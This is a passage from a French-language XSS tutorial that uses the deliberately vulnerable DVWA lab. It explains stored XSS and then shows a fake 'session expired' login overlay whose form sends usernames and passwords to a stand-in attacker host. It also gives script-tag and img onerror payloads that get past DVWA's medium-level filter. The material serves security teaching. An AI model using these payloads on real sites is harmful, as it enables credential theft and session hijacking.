 Soumettez le formulaire et remarquez que rien ne se passe immédiatement. Cependant, lorsque vous actualisez la page ou lorsqu'un autre utilisateur la visite, le JavaScript s'exécute.

C'est plus dangereux que le XSS réfléchi car:
1. La charge utile persiste sur le serveur
2. Elle affecte tout utilisateur qui visite la page
3. Les utilisateurs n'ont pas besoin de cliquer sur un lien malveillant

### Impact réel

Dans un scénario réel, le XSS stocké peut être utilisé pour:
- Détournement de session
- Défiguration de sites web
- Propagation de malwares
- Attaques de phishing

Par exemple, une charge utile plus avancée pourrait voler des identifiants:

```html
<div style="position:absolute;top:0;left:0;width:100%;height:100%;background-color:white;z-index:1000;">
    <h2>Session expirée</h2>
    <p>Veuillez vous reconnecter:</p>
    <form action="https://attaquant.com/voler">
        Nom d'utilisateur: <input type="text" name="username"><br>
        Mot de passe: <input type="password" name="password"><br>
        <input type="submit" value="Connexion">
    </form>
</div>
```

Cela crée une fausse superposition de connexion qui envoie les identifiants au serveur de l'attaquant.

## Partie 3: XSS à des niveaux de sécurité plus élevés

Augmentons le niveau de sécurité de DVWA à "medium" et voyons comment les protections changent.

### Niveau de sécurité moyen

Au niveau de sécurité moyen, les charges utiles XSS de base seront filtrées. Essayez notre charge utile précédente:

```html
<script>alert('XSS')</script>
```

Elle ne fonctionne plus car DVWA utilise maintenant une forme de validation d'entrée.

En examinant le code source, nous pouvons voir que l'application filtre la balise `<script>`. Contournons cela avec une charge utile alternative:

```html
<img src="x" onerror="alert('XSS')">
```

Cela fonctionne car si les balises `<script>` sont filtrées, d'autres gestionnaires d'événements comme `onerror` ne le sont pas.
